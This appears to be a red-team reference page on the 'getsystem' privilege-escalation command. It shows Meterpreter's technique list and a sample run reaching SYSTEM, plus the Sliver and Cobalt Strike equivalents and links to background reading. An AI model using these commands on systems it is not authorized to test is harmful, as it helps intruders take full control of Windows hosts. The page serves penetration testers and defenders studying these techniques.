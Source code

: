 # Getsystem

## 01 - Manual

TODO: Write information related to getsystem that is done without using Command and Control (C2) frameworks

## 02 - Metasploit

### 2.1 - Help Menu

```
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h   Help Banner.
    -t   The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
		5 : Named Pipe Impersonation (PrintSpooler variant)
```

### 2.2 - Basics

```
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 03 - Sliver

TODO: Write more information about getsystem sliver command with help menu

```
sliver (IMPLANT_NAME) > getsystem
```

## 04 - Cobalt Strike

```
beacon> getsystem
```

---
## References

- [What Happens When I Type Getsystem](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/)

- [XPNSec Blog: Becoming System](https://blog.xpnsec.com/becoming-system/)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)

- [Helpsystems: Cobalt Strike Privilege Escalation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/post-exploitation_privilege-escalation.htm)

- [HarmJ0y Get-System.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Get-System.ps1)

- [GetSystem C# implementation](https://github.com/py7hagoras/GetSystem)